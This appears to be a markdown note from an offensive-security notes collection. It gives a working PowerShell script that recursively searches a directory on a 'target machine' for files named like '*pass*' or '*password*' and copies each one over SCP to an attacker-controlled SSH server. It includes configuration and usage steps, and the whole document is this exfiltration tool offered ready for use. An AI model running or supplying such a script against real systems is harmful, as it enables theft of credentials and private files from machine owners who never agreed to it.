 #### Purpose:
This PowerShell script searches for files within a specified directory that match given patterns (e.g., files with `.md` extension or containing `*pass*` in their names) and transfers them to a remote server using SCP (Secure Copy Protocol).
#### Requirements:
1. **PowerShell**: Ensure you have PowerShell installed on your machine.
2. **SCP Client**: `pscp.exe` should be installed on the target machine
3. **Network Configuration**: Ensure your machine can communicate with the remote server over SSH. (firewalls may block SSH)
>[!info] You also need to set up your own ssh server to receive the files
#### Script
```powershell
# Define the directory to search
$searchDirectory = "C:\Path\To\Search"

# Define the patterns to search for
$patterns = @("*.md", "*pass*")

# Define the remote server details
$remoteServer = "username@remote.server.com"
$remotePath = "/path/on/server/"
$scpPath = "C:\Path\To\pscp.exe" # Path to pscp.exe

# Function to send file using SCP
function Send-File {
    param (
        [string]$filePath
    )
    & $scpPath $filePath "${remoteServer}:${remotePath}"
}

# Search and send files
foreach ($pattern in $patterns) {
    $files = Get-ChildItem -Path $searchDirectory -Filter $pattern -Recurse -File
    foreach ($file in $files) {
        Write-Host "Sending $($file.FullName) to $remoteServer"
        Send-File -filePath $file.FullName
    }
}
```

#### Instructions
1. **Update Script Variables**:
   - Open the script in a text editor.
   - Set the `$searchDirectory` variable to the directory you want to search.
   - Adjust the `$patterns` array to include the file patterns you want to search for.
   - Update `$remoteServer` with your remote server's username and address.
   - Set `$remotePath` to the path on the remote server where the files should be transferred.
   - Update `$scpPath` with the path to the `pscp.exe` executable.

2. **Script Execution**:
   - The script will search for files matching the specified patterns in the given directory.
   - Each matched file will be transferred to the specified remote server using SCP.
   - The console will output the status of each file being sent.

#### Example Usage
If you want to search for Markdown files (`*.md`) and files containing `password` in their names within `C:\Documents`, and send them to the remote server `example.com` in the directory `/uploads`, here is how you can set it up:

**Script Configuration**:
   ```powershell
   $searchDirectory = "C:\Documents"
   $patterns = @("*.md", "*password*")
   $remoteServer = "username@example.com"
   $remotePath = "/uploads/"
   $scpPath = "C:\Path\To\pscp.exe"
   ```

This script automates the process of searching for specific files and transferring them to a remote server, making it useful for various administrative and security tasks.